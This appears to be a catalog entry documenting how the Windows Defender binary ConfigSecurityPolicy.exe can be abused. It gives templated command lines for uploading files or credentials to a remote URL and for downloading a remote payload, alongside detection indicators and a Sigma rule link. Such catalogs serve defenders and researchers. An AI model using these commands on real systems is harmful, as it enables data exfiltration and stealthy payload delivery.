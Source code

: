 ```yaml
---
Name: ConfigSecurityPolicy.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender. You can configure different pilot collections for each of the co-management workloads. Being able to use different pilot collections allows you to take a more granular approach when shifting workloads.
Author: Ialle Teixeira
Created: 2020-09-04
Commands:
  - Command: ConfigSecurityPolicy.exe {PATH_ABSOLUTE} {REMOTEURL}
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    OperatingSystem: Windows 10
  - Command: ConfigSecurityPolicy.exe {REMOTEURL}
    Description: It will download a remote payload and place it in INetCache.
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files\Windows Defender\ConfigSecurityPolicy.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\ConfigSecurityPolicy.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_configsecuritypolicy.yml
  - IOC: ConfigSecurityPolicy storing data into alternate data streams.
  - IOC: Preventing/Detecting ConfigSecurityPolicy with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching ConfigSecurityPolicy.exe.
  - IOC: User Agent is "MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729)"
Resources:
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-switch-workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/workloads
  - Link: https://docs.microsoft.com/en-US/mem/configmgr/comanage/how-to-monitor
  - Link: https://twitter.com/NtSetDefault/status/1302589153570365440?s=20
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: '@NtSetDefault'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

